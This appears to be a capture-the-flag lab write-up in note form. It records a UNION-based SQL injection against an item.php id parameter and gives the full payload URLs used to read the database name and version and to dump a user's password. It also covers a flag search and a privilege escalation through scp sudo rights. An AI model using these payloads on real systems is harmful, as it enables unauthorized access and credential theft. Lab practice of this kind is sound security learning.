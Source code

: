 + URL param in shop called id
+ Trying SQLi wiht ' gives error
+ Enumerated id, id=5 has interesting clues
+ Using union select to figure out mapping:
	`http://10.10.208.98/item.php?id=5%20union%20select%201,2,3,4,5`
+ Database name can be found using:
	`http://10.10.208.98/item.php?id=5%20union%20select%201,database(),3,4,5`
+ Found system version using:
	`http://10.10.208.98/item.php?id=5%20union%20select%201,database(),3,version(),5`
+ Found Dennis's password [ih8dinos]:
	`http://10.10.208.98/item.php?id=5%20union%20select%201,database(),3,password,5%20FROM%20users`
+ Logged into Dennis's computer to find flag 1 in home.
+ Found flag 2 using:
	`find / -name *flag* 2>/dev/null`
+ Found flag 3 in .bash_history
+ No flag 4
+ `sudo -l` indicates scp has sudo perm without pwd
+ Looked up the cmds to privesc on GTFObins  
+ Successfully executed shell script as root to gain flag 5
